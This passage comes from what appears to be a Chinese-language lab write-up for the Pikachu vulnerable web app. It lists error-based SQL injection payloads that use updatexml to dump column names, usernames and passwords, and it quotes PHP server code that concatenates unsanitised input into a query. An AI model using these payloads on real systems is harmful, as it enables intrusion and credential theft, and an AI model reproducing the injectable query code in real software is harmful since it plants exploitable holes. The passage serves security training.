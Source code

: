 ![image](../../../assets/img/安全/实验/pikachu/38.png)

字段名 `a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)#` 更改limit后面的数字，爆表名

![image](../../../assets/img/安全/实验/pikachu/39.png)

![image](../../../assets/img/安全/实验/pikachu/40.png)

![image](../../../assets/img/安全/实验/pikachu/41.png)

![image](../../../assets/img/安全/实验/pikachu/42.png)

数据 `a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#`

![image](../../../assets/img/安全/实验/pikachu/43.png)

数据 `a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#`

![image](../../../assets/img/安全/实验/pikachu/44.png)

### xx 型注入
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
